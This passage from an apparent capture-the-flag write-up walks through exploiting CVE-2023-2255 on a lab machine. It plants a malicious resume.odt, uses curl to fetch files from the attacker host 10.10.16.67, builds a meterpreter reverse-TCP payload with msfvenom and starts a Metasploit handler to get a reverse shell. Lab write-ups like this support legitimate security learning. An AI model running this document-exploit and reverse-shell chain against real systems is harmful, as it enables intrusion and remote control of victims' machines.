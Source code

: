 ```bash
python3 CVE-2023-2255.py --cmd 'curl http://10.10.16.67/EXPLOIT-WORKED' --output 'resume.odt'
```

Next download our resume into the applications folder of the internal application.

```powershell
curl "http://10.10.16.67/resume.odt" -o C:\xampp\htdocs\internal\applications\resume.odt
```

After a few moments we'd get a callback to our http server this means that the code execution exploit works

![office exploit](/assets/img/Office/Office_26.png)

So now that we know that it worked we need to weaponize this with a reverse shell. To make it easier on myself i'm going to create a meterpreter reverse shell using msfvenom

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.16.67 LPORT=4000 -f exe > calico.exe
```

after creating our payload we start our listener like so.

```bash
msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter_reverse_tcp;set LHOST tun0;set LPORT 4000;run;"
```

Now that we have our payload we need to download it to a location every user can access. The public user directory is perfect for this as its a user that by default anyone can access 

```powershell
curl "http://10.10.16.67/calico.exe" -o c:\users\public\calico.exe
```

next we create our new resume file but this time instead of doing a curl command, we make it execute our reverse shell.

```bash
python3 CVE-2023-2255.py --cmd 'c:\users\public\calico.exe' --output 'resume.odt'
```
Then we download our resume again like we did before 

```bash
curl "http://10.10.16.67/resume.odt" -o C:\xampp\htdocs\internal\applications\resume.odt
```

A few moments later we'll get a reverse shell as the ppots user.
